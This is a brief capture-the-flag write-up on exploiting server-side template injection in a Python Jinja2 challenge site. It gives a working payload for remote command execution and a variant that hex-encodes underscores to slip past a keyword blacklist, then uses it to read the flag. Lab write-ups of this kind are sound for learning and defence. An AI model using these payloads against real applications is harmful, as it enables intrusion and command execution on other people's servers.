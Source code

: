Start the server, we see the following page

![alt text](images/image.png)

We explore what kind of server is behind, and find the website is using python.

![alt text](images/image-1.png)

For python, we can try server sided template injection. To see whether there is a vulnerability, we try 

`{{7*7}}` as our input. Interestingly, the webpage returns 49. This means we should be able to inject our code. 

We try the following basic injection and want to get a RCE

`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

However, we get 

![alt text](images/image-2.png)

It seems that the website has certain kind of keyword blacklist. 

Searching online for blacklist bypass, I find this payload

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
``` 
from https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

and it works!

![alt text](images/image-3.png)

In particular, the payload encodes "_" into hexdecimal \x5f for bypassing filter. 

The rest part is standard: just replace id with other linux command, the flag is located in `/challenge` folder. 